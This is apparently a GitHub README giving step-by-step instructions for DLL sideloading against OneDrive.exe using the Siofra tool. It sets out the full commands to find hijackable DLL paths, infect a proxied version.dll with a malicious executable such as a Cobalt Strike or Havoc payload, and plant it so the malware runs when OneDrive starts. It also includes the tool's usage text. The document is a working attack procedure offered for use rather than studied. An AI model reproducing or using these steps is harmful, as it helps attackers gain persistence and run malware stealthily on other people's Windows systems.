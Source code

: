 # DLL-SIDELOADING
Dll sideloading using Exe or Dll
What We Need ?
- A malicious exe ( Like generated by Havoc, Cobalt-Strike or using a Dropper)
- A legit dll
- A vulnerable location according to dll to place the malicious one there ( We Can Find It Using The Same Tool).

- USAGE:
- Clone the repo or download zip. 
- First we have to find vulnerable location and binaries.
- For OneDrive the location of OneDrive.exe is ( C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe )
- Open Cmd go to the Siofra location
-  Use Command : Siofra64.exe --mode file-scan --enum-dependency --dll-hijack -f C:\Users\mulware\AppData\Local\Microsoft\OneDrive\OneDrive.exe 
- You will get the vulnerable location ( Example : 
- [!] Module Secur32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\Secur32.dll (real path: C:\WINDOWS\system32\Secur32.dll)
- [!] Module VERSION.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll (real path: C:\WINDOWS\system32\VERSION.dll)
- [!] Module WININET.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WININET.dll (real path: C:\WINDOWS\system32\WININET.dll)
- [!] Module WTSAPI32.dll vulnerable at C:\Users\mulware\AppData\Local\Microsoft\OneDrive\WTSAPI32.dll (real path: C:\WINDOWS\system32\WTSAPI32.dll)
)
- Make a folder ( For example named : dll-sideloading )
- Now copy the dll you want to proxy using the real path to the folder (for  example copy version.dll ( C:\WINDOWS\system32\VERSION.dll ) to the folder)
- Also place the malicious dll or exe in the folder
- Make a Sub-folder named output
- open cmd go to the siofra location 
- Use Command : Siofra64.exe --mode infect -f C:\Users\mulware\Desktop\DLL-sideloading\version.dll -o C:\Users\mulware\Desktop\DLL-sideloading\output\version.dll --payload-path C:\Users\mulware\Desktop\DLL-sideloading\malware.exe --payload-type process
- The Payload type = For exe ( process ) and for dll ( library )
- If successful you will get a malicious dll in output file
- Copy the malicious dll in the vulnerable location we find above ( For Example : C:\Users\mulware\AppData\Local\Microsoft\OneDrive\VERSION.dll )
- Now Run OneDrive.exe
- BOOM !

:::::::::OPTIONAL :::::::::

More Usage : 
- *] Siofra version 1.13 usage: Siofra64.exe --mode [Supported modes: "file-scan", "mem-scan" and "infect"] -v [Optional. Output verbosity level]
  -  Verbosity levels:
   -     0 - No output
    -    1 - Only critical success/failure status (default)
     -   2 - Additional status details for success/failure status, including discarded PEs
      -  3 - Everything
    - File scan mode:
     -   -f [File or directory to scan]
      -  -r [Optional. Recursive scan]
       - --signed [Optional. Process only signed binaries]
        - --delayload [Optional. Include delayload imports in dependency list]
        - --explicit-loadlibrary [Optional. Include potentially explicit imports in dependency list (these are *.dll strings which may have been called via LoadLibrary(Ex)A/W]
        - --auto-elevate [Optional. Scan only auto-elevate binaries]
    - Memory scan mode:
      -   --pid [Target process ID to scan. When not specified, a list of either 32 or 64-bit process names/PIDs will be enumerated (corresponding to either the 32 or 64-bit version of this tool)]
    - Any scan mode:
      -  --enum-dependency [Enumerate dependencies]
       - --show-unmapped-apiset [Optional. Include API sets which failed to map to a module from output (ignored by default)]
       - --dll-hijack [Enumerate DLL hijacking vulns]
       - --find-module [Optional. Scan dependencies for a specific module. Note that this excludes KnownDLLs]
    - Infect mode:
      -  -f [DLL file to infect]
       - -o [Output file]
       - --payload-path [Path of DLL to be loaded in to infected DLL at runtime, or path of executable to be launched at runtime]
       - --payload-type [The type of payload specified in the parasite payload path. This can be "process" (generally indicating a exe) or "library" (generally indicating a DLL)]

CREDITS : 
https://github.com/cys3c
        
